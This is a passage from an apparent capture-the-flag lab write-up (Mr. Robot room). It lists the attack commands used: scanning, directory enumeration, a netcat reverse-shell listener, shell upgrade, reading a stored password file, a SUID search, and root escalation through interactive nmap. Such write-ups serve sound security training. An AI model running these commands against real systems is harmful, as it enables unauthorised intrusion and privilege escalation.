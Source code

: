 **Root cause:** The interactive functionality of a privileged binary (nmap) allowed spawning a shell as root. This is a configuration/installation security issue.

---



![mr.robot10](assets/mr.robot/10.png)

## 10. Reproducible commands (lab-only)



> Execute only in authorized lab environments.

```bash
# Port scan
nmap  10.10.199.99

# Directory enumeration
gobuster dir -u http://10.10.199.99 -w /usr/share/wordlists/dirb/common.txt 

# Start listener for reverse shell
nc -lvnp 2222

# Upgrade received shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

# Check user home
cd /home/robot
ls -la
cat password

# Check SUID binaries
find / -perm -u=s 2>/dev/null

# Interactive nmap (lab only)
nmap --interactive
# at prompt: !sh
```

---


